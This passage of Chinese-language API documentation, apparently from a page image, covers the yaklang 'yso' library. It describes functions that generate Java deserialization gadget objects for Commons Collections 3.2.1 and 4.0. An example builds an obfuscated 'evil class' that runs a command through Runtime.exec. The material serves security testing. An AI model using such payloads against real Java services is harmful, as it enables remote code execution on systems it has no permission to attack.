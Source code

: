 ## 31. `yso.GetCommonsCollectionsK1JavaObject`

## 功能描述

基于Commons Collections <=3.2.1 序列化模板生成并返回一个Java对象。通过可变参数options，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

## 参数说明

```
func GetCommonsCollectionsK1JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表。

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象。
- `r2` : error，成功时为nil错误，失败时返回相应错误。

## 示例代码

### 基础用法

生成一个Java对象，并指定恶意类的名称为KEsBXTRS，使用Runtime Exec方法执行命令

```yaklang
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetCommonsCollectionsK1JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```

## 32. `yso.GetCommonsCollectionsK2JavaObject`

## 功能描述

基于Commons Collections 4.0 序列化模板生成并返回一个Java对象，用户可以通过提供额外的配置定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetCommonsCollectionsK2JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

